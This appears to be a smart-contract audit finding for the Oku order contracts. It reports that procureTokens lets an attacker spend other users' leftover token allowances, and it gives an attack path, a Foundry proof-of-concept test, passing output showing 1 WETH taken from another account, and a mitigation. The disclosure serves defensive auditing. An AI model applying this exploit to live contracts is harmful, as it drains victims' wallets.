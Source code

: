 Slow Rose Puppy

High

# ProcureTokens Allows Users to Steal Leftover Allowances

### Summary

OracleLess.sol:procureTokens and StopLimit.sol:procureTokens allow attackers to use other user's allowances to create orders, and subsequently fill the orders themselves to drain users wallets.

### Root Cause

The call to procureTokens in OracleLess.sol and StopLimit.sol use the recipient to take tokens from, which can be used by anyone to create orders with any leftover allowance given to the contract.

https://github.com/sherlock-audit/2024-11-oku/blob/ee3f781a73d65e33fb452c9a44eb1337c5cfdbd6/oku-custom-order-types/contracts/automatedTrigger/OracleLess.sol#L49C1-L49C76

https://github.com/sherlock-audit/2024-11-oku/blob/ee3f781a73d65e33fb452c9a44eb1337c5cfdbd6/oku-custom-order-types/contracts/automatedTrigger/StopLimit.sol#L169C1-L172C10



### Internal pre-conditions

1. The approved token must have an oracle set in the AutomationMaster.sol contract.

### External pre-conditions

1. A user must have leftover approval to the OracleLess.sol or StopLimit.sol contract. These contracts are expected to receive approval to create orders.

### Attack Path

1. A user wants to create and order and sends and approval transaction to the OracleLess.sol or StopLimit.sol contracts.
2. The attack can happen either before the user submits their createOrder transaction, or afterwards if the approval given exceeds the amount they need for their order.
3. An attacker calls the createOrder function in the OracleLess.sol or StopLimit.sol with the recipient set to the user, with the amountIn the balance of the user, and the minAmountOut/price to a trivial amount.
4a. In the OracleLess.sol contract, the attacker can set the target to a contract they control which sends the required trivial minAmountOut to the OracleLess.sol contract, fulfilling the balance checks afterwards.
4b. In the StopLimit.sol contract the attacker will create a reciprocal order to match the order they created from the user, and fill their own order through the performUpkeep function.

### Impact

The user will lose tokens from their wallet equal to the remaining allowance they had given to the contract. This is especially concerning if the contract asks for the max allowance, as has become far too common. 

### PoC

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import {Test, console2 as console} from "lib/forge-std/src/Test.sol";
import {Gas} from "test/Gas.sol";
import "src/automatedTrigger/IAutomation.sol";
import {OracleLess} from "src/automatedTrigger/OracleLess.sol";
import {AutomationMaster} from "src/automatedTrigger/AutomationMaster.sol";
import {Bracket} from "src/automatedTrigger/Bracket.sol";
import {StopLimit} from "src/automatedTrigger/StopLimit.sol";
import {IPermit2} from "src/interfaces/uniswapV3/IPermit2.sol";
import {IERC20} from "src/interfaces/openzeppelin/IERC20.sol";

contract Setup is Test, Gas {
    AutomationMaster internal automation;
    OracleLess internal oracleLess;
    Bracket internal bracket;
    StopLimit internal stopLimit;

    IPermit2 internal permit;

    IERC20 internal weth = IERC20(0x82aF49447D8a07e3bd95BD0d56f35241523fBab1);
    IERC20 internal usdc = IERC20(0xaf88d065e77c8cC2239327C5EDb3A432268e5831);

    address internal _alice = address(0x1111);
    address internal _bob = address(0x2222);

    address internal _admin = address(0x12345);

    address internal _wethWhale = 0xC6962004f452bE9203591991D15f6b388e09E8D0;
    address internal _usdcWhale = 0x70d95587d40A2caf56bd97485aB3Eec10Bee6336;

    function setUp() public virtual {
        uint256 forkId = vm.createSelectFork("http:127.0.0.1:8545");

        vm.startPrank(_admin);
        automation = new AutomationMaster();
        permit = IPermit2(0x000000000022D473030F116dDEE9F6B43aC78BA3);

        bracket = new Bracket(IAutomationMaster(address(automation)), permit);
        stopLimit = new StopLimit(
            IAutomationMaster(address(automation)),
            IBracket(address(bracket)),
            permit
        );
        oracleLess = new OracleLess(automation, permit);

        vm.stopPrank();
        vm.startPrank(_wethWhale);
        weth.transfer(_alice, 10 ether);
        weth.transfer(_bob, 10 ether);
        vm.stopPrank();

        vm.startPrank(_usdcWhale);
        usdc.transfer(_alice, 10000e6);
        usdc.transfer(_bob, 10000e6);
        vm.stopPrank();

        IERC20[] memory tokens = new IERC20[](2);
        tokens[0] = weth;
        tokens[1] = usdc;
        IPythRelay[] memory relays = new IPythRelay[](2);
        relays[0] = IPythRelay(0x384542D720A765aE399CFDDF079CBE515731F044);
        relays[1] = IPythRelay(0x9BDb5575E24EEb2DCA7Ba6CE367d609Bdeb38246);
        vm.prank(_admin);
        automation.registerOracle(tokens, relays);
        vm.prank(_admin);
        automation.setMaxPendingOrders(100);
    }

    function testStealAllowance() public {
        vm.prank(_alice);
        weth.approve(address(oracleLess), type(uint256).max);

        console.log("Alice Balance Before: ", weth.balanceOf(_alice));

        vm.startPrank(_bob);
        uint256 orderId = oracleLess.createOrder(
            weth,
            usdc,
            1 ether,
            1e6,
            _alice,
            0,
            false,
            bytes(abi.encode(""))
        );

        console.log("Alice Balance After : ", weth.balanceOf(_alice));
    }
}
```
This test shows that Bob can create an order that uses Alice's leftover allowance
```solidity
[PASS] testStealAllowance() (gas: 256703)
Logs:
  Alice Balance Before:  10000000000000000000
  Alice Balance After :  9000000000000000000

```

### Mitigation

The user creating the order should be the one to pay for the order, regardless of the recipient. 
